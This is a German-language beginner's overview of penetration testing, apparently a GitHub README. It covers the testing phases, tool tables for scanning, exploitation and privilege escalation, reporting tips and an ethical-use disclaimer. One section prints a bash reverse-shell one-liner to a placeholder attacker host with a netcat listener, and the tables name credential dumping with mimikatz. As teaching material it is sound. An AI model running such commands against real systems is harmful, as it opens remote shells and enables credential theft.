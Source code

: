 # 🛡️ Pentest Basics – Einstieg ins Penetration Testing

> Diese Übersicht vermittelt dir die wichtigsten Schritte, Tools und Begriffe für manuelle sowie automatisierte Pentests. Perfekt für Anfänger und zur Prüfungsvorbereitung.

## Inhaltsverzeichnis
- [Pentesting-Phasen (PTES)](#pentesting-phasen-ptes)
- [1. Reconnaissance (Passive Informationsbeschaffung)](#1-reconnaissance-passive-informationsbeschaffung)
- [2. Scanning & Enumeration (Aktive Analyse)](#2-scanning--enumeration-aktive-analyse)
- [3. Exploitation (Angriff)](#3-exploitation-angriff)
- [4. Post-Exploitation](#4-post-exploitation)
- [5. Rechteausweitung (Privilege Escalation)](#5-rechteausweitung-privilege-escalation)
- [Wichtige Tools (Essentials)](#wichtige-tools-essentials)
- [Begriffe & Techniken](#begriffe--techniken)
- [Beispiel: Reverse Shell (Linux Bash)](#beispiel-reverse-shell-linux-bash)
- [Nützliche Links](#nützliche-links)
- [Haftungsausschluss](#haftungsausschluss)



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Pentesting-Phasen (PTES)

1. **Reconnaissance** – Informationsgewinnung  
2. **Scanning & Enumeration** – Zielsysteme identifizieren  
3. **Exploitation** – Schwachstellen ausnutzen  
4. **Post-Exploitation** – Vertiefung und Ausweitung des Zugriffs  
5. **Reporting** – Ergebnisdokumentation



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## 1. Reconnaissance (Passive Informationsbeschaffung)

| Tool / Befehl                   | Zweck                                  |
|---------------------------------|----------------------------------------|
| `whois domain.com`              | Whois-Informationen zur Domain         |
| `nslookup`, `dig`               | DNS-Abfragen                           |
| `theHarvester`                  | E-Mail- und Domaininfos sammeln        |
| `shodan.io`                     | IoT- und öffentlich erreichbare Geräte |
| `Google Dorking`                | Spezielle Google-Suchabfragen          |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## 2. Scanning & Enumeration (Aktive Analyse)

### Netzwerkscan

| Tool / Befehl                   | Beschreibung                            |
|---------------------------------|------------------------------------------|
| `nmap -sS 192.168.1.1`          | TCP SYN-Scan                            |
| `nmap -sV -O target.com`        | Version + OS-Erkennung                  |
| `nmap --script vuln`            | Verwundbarkeits-Scan                    |

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Dienste enumerieren

| Tool                  | Zweck                              |
|-----------------------|------------------------------------|
| `enum4linux`          | SMB/NetBIOS-Enumeration            |
| `smbclient`           | Zugriff auf offene SMB-Shares      |
| `ldapsearch`          | LDAP-Abfrage                       |
| `nikto`               | Webserver-Scan (Verwundbarkeiten)  |
| `dirb` / `gobuster`   | Verzeichnisse und Dateien entdecken|



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## 3. Exploitation (Angriff)

| Tool / Technik        | Beschreibung                       |
|-----------------------|-------------------------------------|
| `msfconsole`          | Metasploit-Framework                |
| `searchsploit`        | Exploit-Datenbank (offline)         |
| `python -m http.server` | Dateiserver für Payloads         |
| `sqlmap`              | SQL-Injection automatisieren        |
| `xss`, `csrf`, `rce`  | Gängige Schwachstellen              |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## 4. Post-Exploitation

| Technik / Tool        | Beschreibung                         |
|-----------------------|----------------------------------------|
| `netstat -ano`        | Offene Verbindungen prüfen            |
| `mimikatz`            | Windows-Credentials extrahieren       |
| `lsass` Dumping       | Tokens auslesen                       |
| `linuxprivchecker.py`| Privilege Escalation auf Linux testen |
| `linPEAS`, `winPEAS`  | Automatisiertes PE-Tool               |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## 5. Rechteausweitung (Privilege Escalation)

| Linux                                | Windows                              |
|-------------------------------------|--------------------------------------|
| SUID/SGID Binary-Missbrauch         | Unquoted Service Paths               |
| Schwache Cronjobs                   | AlwaysInstallElevated               |
| `sudo -l`                           | DLL Hijacking                        |
| Kernel-Exploits (Exploit-DB)        | Token-Impersonation                  |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Wichtige Tools (Essentials)

| Tool              | Zweck                                   |
|-------------------|------------------------------------------|
| `Burp Suite`      | Web Application Testing (Proxy, Scanner) |
| `Hydra`, `Medusa` | Brute Force auf Login-Portale            |
| `Netcat`          | Reverse/Bind Shells                      |
| `John`, `Hashcat` | Passwort-Cracking                        |
| `Wireshark`       | Netzwerkverkehr analysieren              |
| `ncat`            | Verschlüsselter Netcat-Ersatz            |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Begriffe & Techniken

| Begriff         | Bedeutung                                     |
|-----------------|-----------------------------------------------|
| CVE             | Common Vulnerabilities and Exposures         |
| CVSS            | Common Vulnerability Scoring System          |
| PoC             | Proof of Concept (z. B. funktionierender Exploit) |
| Pivoting        | Nutzung eines kompromittierten Systems als Sprungbrett |
| Tunneling       | Verkehr über andere Protokolle/Ports schleusen |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Beispiel: Reverse Shell (Linux Bash)

```bash
# Opfer (Opfer bekommt Shell):
bash -i >& /dev/tcp/attacker-ip/4444 0>&1

# Angreifer:
nc -lvnp 4444
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 🗒️ Reporting Tipps

- Beschreibung der Schwachstelle
- Reproduktionsschritte
- Risiko (CVSS-Score, falls verfügbar)
- Screenshot / Beweis
- Empfehlung zur Behebung



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Nützliche Links

- [Hack The Box](https://www.hackthebox.com/)
- [TryHackMe](https://tryhackme.com/dashboard) 
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [GTFOBins](https://gtfobins.github.io/)
- [Exploit-DB](https://www.exploit-db.com/)
- [Red Team Notes](https://book.hacktricks.wiki/en/index.html)




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---